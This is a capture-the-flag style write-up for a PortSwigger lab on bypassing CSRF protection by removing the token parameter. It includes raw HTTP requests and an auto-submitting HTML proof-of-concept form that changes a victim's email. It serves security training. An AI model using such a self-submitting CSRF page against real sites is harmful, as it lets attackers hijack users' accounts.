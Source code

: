 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3837f7eb-8034-4086-9922-bf5797983516)


## Overview :

Validation of CSRF token depends on token being present

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

## Solution :

When we click **update email**, our browser sends a request as follows.

```http
POST /my-account/change-email HTTP/2
Host: 0ace001f04992fac811c0c22001200e2.web-security-academy.net
Cookie: session=4XUnnUZzmmhBlIMp80cpgsA0mXhohvtd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net
Referer: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=yYeftI49JgNBG10a0D6OlJekl0EIGgRt
``

In this POST request, the csrf token is sent along with the email parameter in the body of the request.

We can either try to **remove the csrf parameter entirely** / **give a blank value (csrf=)**
to bypass the csrf protection.
 
When genreating a POC  remember not to give used email, as mentioned in Lab Hint.

First lets entirely remove the csrf parameter 

```http
POST /my-account/change-email HTTP/2
Host: 0ace001f04992fac811c0c22001200e2.web-security-academy.net
Cookie: session=4XUnnUZzmmhBlIMp80cpgsA0mXhohvtd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net
Referer: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net
```

**Generated POC -**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now paste the HTML script in the exploit server's body & deliver the exploit to victim to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f215f93-c52c-46ca-9c00-ea47861802b6)

